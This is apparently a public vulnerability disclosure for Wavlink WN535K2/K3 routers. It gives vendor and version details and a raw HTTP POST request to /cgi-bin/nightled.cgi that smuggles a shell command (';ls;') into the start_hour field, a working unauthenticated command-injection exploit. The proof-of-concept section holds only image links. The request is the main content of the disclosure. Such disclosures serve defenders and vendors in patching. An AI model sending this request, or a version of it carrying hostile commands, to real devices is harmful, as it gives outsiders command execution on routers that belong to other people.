



###Wavlink nightled.cgi command execution

#### Exploit Title

Wavlink nightled.cgi command execution

#### Exploit Author

webraybtl@webray.com.cn inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.wavlink.com

#### Software Link

https://www.wavlink.com/zh_cn/firmware.html

#### Version

WN535K2/K3

#### Description

There is a command execution vulnerability in wavlink, through which an attacker can gain server privileges

#### Payload used

```
POST /cgi-bin/nightled.cgi HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

page=night_led&start_hour=;ls;
```


#### Proof of Concept





